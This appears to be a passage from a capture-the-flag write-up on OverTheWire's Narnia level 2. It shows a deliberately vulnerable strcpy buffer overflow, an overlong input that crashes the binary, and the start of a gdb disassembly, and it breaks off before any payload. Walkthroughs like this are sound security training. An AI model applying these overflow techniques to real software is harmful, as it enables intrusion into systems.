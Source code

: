 ```yaml
---
layout: post
title: narnia-writeup-02-03
excerpt: "Writeup for the Narnia (L02 & L04)  wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / narina](http://www.overthewire.org/wargames/narnia/)

## Level 2 ##

As before, we're given the source code of the binary:

``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
                exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}

```

The argument to `printf` is properly formatted so it's not a format string exploit. We do however notice the blind `strcpy` into `buf`, which is 128 bytes long. I guess the first question would be what would happen should the input be longer than that:

``` shell
narnia2@narnia:/narnia$ ./narnia2 $(python -c 'print "D"*160')
Segmentation fault
```

That's actually good news - it means we probably messed up the stack and overwrote a return address with junk (or `\x44\x44\x44\x44` in thise case). Let's look at this through `gdb`:

``` shell
narnia2@narnia:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0804845d <+0>:     push   ebp
   0x0804845e <+1>:     mov    ebp,esp
   0x08048460 <+3>:     and    esp,0xfffffff0
   0x08048463 <+6>:     sub    esp,0x90
   0x08048469 <+12>:    cmp    DWORD PTR [ebp+0x8],0x1
   0x0804846d <+16>:    jne    0x8048490 <main+51>
   0x0804846f <+18>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048472 <+21>:    mov    eax,DWORD PTR [eax]
   0x08048474 <+23>:    mov    DWORD PTR [esp+0x4],eax
   0x08048478 <+27>:    mov    DWORD PTR [esp],0x8048560
   0x0804847f <+34>:    call   0x8048310 <printf@plt>
   0x08048484 <+39>:    mov    DWORD PTR [esp],0x1
   0x0804848b <+46>:    call   0x8048340 <exit@plt>
```